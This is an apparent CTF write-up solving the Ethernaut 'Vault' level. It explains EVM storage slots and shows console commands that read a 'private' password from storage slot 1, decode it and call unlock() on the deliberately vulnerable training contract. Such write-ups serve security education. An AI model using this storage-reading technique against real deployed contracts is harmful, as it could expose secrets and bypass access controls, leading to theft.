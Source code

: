 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel8.svg">

# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

Challange's message.

>Unlock the vault to pass the level!

We have an contract which has type of bool variable called **locked** and type of **bytes** variable named **_password_** that defined in constructor(). What is more, there is **unlock()** function which checks _password we entered. If we entered correct password, unlocked will be **false** so we will beat this level.

## Smart Contract's Storage

Each smart contract running in the Ethereum Virtual Machine (EVM) maintains state in its own permanent storage. This storage can be thought of as a very large array, initially full of zeros. Each value in the array is 32-bytes wide, and there are 2256 such values. A smart contract can read from or write to a value at any location. That’s the extent of the storage interface.

<img src="https://programtheblockchain.com/storage/storage.png">

```solidity
contract StorageTest {
    uint256 a;
    bytes32 b;
}
```

In the above code:
+ ```a``` is stored at slot 0. 
+ ```b``` is stored at slot 1.


## Accessing Private Variabes In Storage



# Subverting

```shell
await contract.locked()
true
```

```shell
var pass = await web3.eth.getStorageAt(contract.address,1,console.log)
```

```shell
await web3.utils.hexToUtf8(pass)
'A very strong secret password :)'
```
```shell
await contract.unlock(pass)
```
```shell
await contract.locked()
false
```

**_by wasnyps_**
